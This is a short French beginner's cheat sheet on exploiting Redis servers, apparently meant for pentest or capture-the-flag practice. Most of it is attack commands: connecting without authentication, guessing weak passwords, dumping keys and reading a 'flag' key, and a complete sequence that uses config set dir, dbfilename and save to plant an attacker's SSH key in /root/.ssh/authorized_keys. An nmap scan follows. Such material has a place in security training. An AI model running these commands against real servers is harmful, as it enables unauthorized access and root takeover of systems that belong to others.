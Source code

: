 # Exploitation Redis

## Objectif
Exploiter des faiblesses de configuration ou des mots de passe faibles pour obtenir un accès non autorisé à un serveur Redis ou exécuter du code à distance.

---

## Explications vulgarisées
- Redis est une base de données clé-valeur en mémoire, souvent utilisée sans authentification ni restriction réseau. Cela peut permettre un accès complet ou l'exécution de commandes sur la machine.

---

## Commandes et étapes essentielles

### 1. Connexion sans mot de passe
```bash
redis-cli -h target.com
```
- **redis-cli** : Client en ligne de commande pour Redis.
- **Astuce débutant** : Tester la connexion sans mot de passe, puis avec des mots de passe faibles ("redis", "password").

### 2. Enumération et extraction de données
```bash
redis-cli -h target.com keys *
redis-cli -h target.com get flag
```
- **keys *** : Liste toutes les clés présentes.
- **get flag** : Récupère la valeur d'une clé.

### 3. Exploitation pour obtenir un shell (écriture de clé SSH)
- Écrire une clé SSH dans le fichier authorized_keys de l'utilisateur root (si le serveur tourne en root) :
```bash
echo -e "\n\nssh-rsa AAAA... attacker@kali\n\n" > pubkey.txt
cat pubkey.txt | redis-cli -h target.com -x set crackit
redis-cli -h target.com config set dir /root/.ssh/
redis-cli -h target.com config set dbfilename "authorized_keys"
redis-cli -h target.com save
```
- **À surveiller** : Possibilité d'écrire dans des dossiers sensibles, obtention d'un accès SSH.

### 4. Exploitation automatisée avec Nmap
```bash
nmap -p 6379 --script redis-info target.com
```
- **redis-info** : Récupère des infos sur le serveur Redis.

---

## Conseils pour débutants
- Toujours tester la connexion sans mot de passe avant d'essayer des credentials.
- Attention à l'impact de la commande "save" (peut écraser des données existantes).
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - Redis Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Redis%20Methodology)
- [Nmap Redis NSE Scripts](https://nmap.org/nsedoc/categories/redis.html) 